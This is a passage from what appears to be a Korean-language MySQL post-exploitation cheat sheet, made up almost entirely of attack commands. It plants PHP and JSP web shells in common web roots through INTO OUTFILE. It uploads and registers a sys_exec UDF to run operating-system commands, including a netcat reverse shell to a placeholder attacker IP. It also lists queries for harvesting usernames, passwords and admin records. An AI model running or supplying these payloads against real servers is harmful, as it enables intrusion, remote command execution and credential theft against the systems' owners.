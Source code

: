 ```bash
%>' INTO OUTFILE '/var/lib/tomcat/webapps/ROOT/shell.jsp';

# 다양한 웹 루트 경로 시도
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/shell.php';
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/usr/share/nginx/html/shell.php';
```

### 💾 UDF (User Defined Functions) 활용

```bash
# lib_mysqludf_sys UDF 확인
SELECT * FROM mysql.func;

# UDF가 있는 경우 시스템 명령 실행
SELECT sys_eval('whoami');
SELECT sys_exec('id');
SELECT sys_get('pwd');

# UDF 수동 생성 (복잡하지만 강력)
# 1. UDF 라이브러리 업로드
SELECT hex(LOAD_FILE('/usr/lib/lib_mysqludf_sys.so')) INTO OUTFILE '/tmp/udf.hex';

# 2. 라이브러리를 MySQL 플러그인 디렉토리에 저장
SELECT UNHEX('UDF_HEX_CODE_HERE') INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

# 3. UDF 함수 생성
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'udf.so';
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';

# 4. 시스템 명령 실행
SELECT sys_exec('nc -e /bin/bash {ATTACKER_IP} 4444');
```

### 🔍 데이터베이스 정보 수집

```bash
# 모든 데이터베이스 확인
SHOW DATABASES;

# 특정 데이터베이스의 테이블 확인
USE mysql;
SHOW TABLES;

USE information_schema;
SELECT table_name FROM tables WHERE table_schema = 'database_name';

# 테이블 구조 확인
DESCRIBE table_name;
SHOW COLUMNS FROM table_name;

# 중요 데이터 수집
SELECT * FROM users;
SELECT * FROM accounts;
SELECT username, password FROM login_table;
SELECT * FROM admin;

# 크레덴셜 정보 찾기
SELECT table_name, column_name FROM information_schema.columns
WHERE column_name LIKE '%pass%' OR column_name LIKE '%user%';

# 데이터 개수 확인
SELECT COUNT(*) FROM table_name;

```